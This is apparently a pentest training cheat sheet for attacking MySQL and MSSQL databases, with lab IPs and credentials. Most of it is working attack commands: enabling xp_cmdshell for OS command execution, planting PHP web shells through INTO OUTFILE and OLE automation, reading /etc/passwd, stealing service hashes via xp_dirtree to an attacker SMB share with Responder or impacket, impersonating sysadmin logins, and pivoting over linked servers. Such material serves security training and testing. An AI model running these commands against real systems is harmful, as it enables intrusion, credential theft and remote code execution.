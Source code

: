 - [MySQL](https://www.mysql.com/) and [Microsoft SQL Server](https://www.microsoft.com/en-us/sql-server/sql-server-2019) (`MSSQL`) are [relational database](https://en.wikipedia.org/wiki/Relational_database) management systems that store data in tables, columns, and rows. 
- Many relational database systems like MSSQL & MySQL use the [Structured Query Language](https://en.wikipedia.org/wiki/SQL) (`SQL`) for querying and maintaining the database.
# Enumeration
- By default, MSSQL uses ports `TCP/1433` and `UDP/1434`, and MySQL uses `TCP/3306`. 
- However, when MSSQL operates in a "hidden" mode, it uses the `TCP/2433` port.
## Banner Grabbing
```shell
nmap -Pn -sV -sC -p1433 10.10.10.125
```
# Protocol Specific Attacks
### MySQL
#### MySQL - Connecting to the SQL Server
```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```
#### Sqlcmd - Connecting to the SQL Server
```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```
### MSSQL
```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h
```
#### mssqlclient.py
```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
# SQL Syntax
#### MySQL
```shell
SHOW DATABASES;
```
```shell
USE htbusers;
```
```shell
SHOW TABLES;
```
```shell
SELECT * FROM users;
```
#### MSSQL
```cmd
SELECT name FROM master.dbo.sysdatabases
```
```cmd
USE htbusers
```
```cmd
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
```
```cmd
SELECT * FROM users
```
# Execute Commands
### XP_CMDSHELL
```cmd
xp_cmdshell 'whoami'
GO
```
If `xp_cmdshell` is not enabled, we can enable it, if we have the appropriate privileges, using the following command:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```
# Write Local Files
#### MySQL - Write Local File
```shell
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
#### MySQL - Secure File Privileges
```shell
show variables like "secure_file_priv";
```
#### MSSQL - Enable Ole Automation Procedures
```cmd
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```
#### MSSQL - Create a File
```cmd-session
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
GO
```
# Read Local Files
#### Read Local Files in MSSQL
```cmd-session
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
GO
```
#### MySQL - Read Local Files in MySQL
```shell
select LOAD_FILE("/etc/passwd");
```
# Capture MSSQL Service Hash
#### XP_DIRTREE Hash Stealing
```cmd-session
EXEC master..xp_dirtree '\\10.10.110.17\share\'
GO
```
#### XP_SUBDIRS Hash Stealing
```cmd-session
EXEC master..xp_subdirs '\\10.10.110.17\share\'
GO
```
#### XP_SUBDIRS Hash Stealing with Responder
```shell
sudo responder -I tun0
```
#### XP_SUBDIRS Hash Stealing with impacket
```shell
sudo impacket-smbserver share ./ -smb2support
```
# Impersonate Existing Users with MSSQL
#### Identify Users that We Can Impersonate
```cmd
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
```
#### Verifying our Current User and Role
```cmd
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
go
```
#### Impersonating the SA User
```cmd
EXECUTE AS LOGIN = 'john'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```
# Communicate with Other Databases with MSSQL
#### Identify linked Servers in MSSQL
```cmd
SELECT srvname, isremote FROM sysservers
GO
```
```cmd
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
GO
```
